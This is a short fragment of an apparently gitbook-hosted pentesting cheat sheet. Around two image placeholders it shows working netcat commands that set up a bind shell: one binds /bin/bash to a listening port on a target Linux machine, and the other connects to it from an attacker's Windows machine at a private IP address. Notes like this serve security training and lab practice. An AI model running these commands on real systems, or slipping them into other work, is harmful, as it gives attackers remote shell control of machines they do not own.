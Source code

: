 <figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.21.3 1234
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>